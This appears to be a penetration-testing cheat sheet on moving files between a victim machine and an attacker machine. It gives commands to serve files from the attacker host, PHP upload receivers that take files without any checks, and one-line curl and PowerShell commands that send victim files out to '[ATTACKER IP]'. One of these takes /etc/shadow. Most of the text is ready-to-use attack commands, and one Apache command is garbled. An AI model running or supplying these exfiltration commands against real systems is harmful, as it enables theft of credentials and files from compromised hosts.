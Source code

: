 

# File Transfers with PHP

Serve files from attacker machine:
- PHP: `php -S <ip>:<port>`



# Apache server

1. On ATTACKER MACHINE:
```
sudo statusstart apache2 # Check if Apache is running
sudo systemctl start apache2
```
Then place the files to share in: ```/var/www/html/```







### PHP Upload



In the ATTACKER machine server:

1. create `uploads` directory


2.a. UNIX VICTIM create `upload.php` file:

```
<?php

$target_path = "uploads/";
$target_path = $target_path . basename($_FILES['uploadedfile']['name']);

echo "Source=" . $_FILES['uploadedfile']['name'] . "<br />";
echo "Target path=" . $target_path . "<br />";
echo "Size=" . $_FILES['uploadedfile']['size'] . "<br />";


if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'],$target_path)) {
echo "The file " . basename($_FILES['uploadedfile']['name']) . " has been uploaded";
}else{
echo "There was an error uploading the file, please try again!";
}
?>






Upload using cURL:
```
curl --form "uploadedfile=@/path/to/some/file" http://[ATTACKER IP]/upload.php
curl --form "uploadedfile=@/etc/shadow" http://[ATTACKER IP]/upload.php
```








2.b. Windows VICTIM:
Create `uploadWindows.php`:

```
<?php
$uploaddir = '/var/www/html/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
?>
```

2.b.1
Error handling...
```
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);

if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
    echo "File successfully uploaded.";
} else {
    echo "File upload failed.";
}
?>
```




Upload using PowerShell:



```
powershell (New-Object System.Net.WebClient).UploadFile('http://[ATTACKER IP]/uploadWindows.php', '[FILE TO UPLOAD]')
```

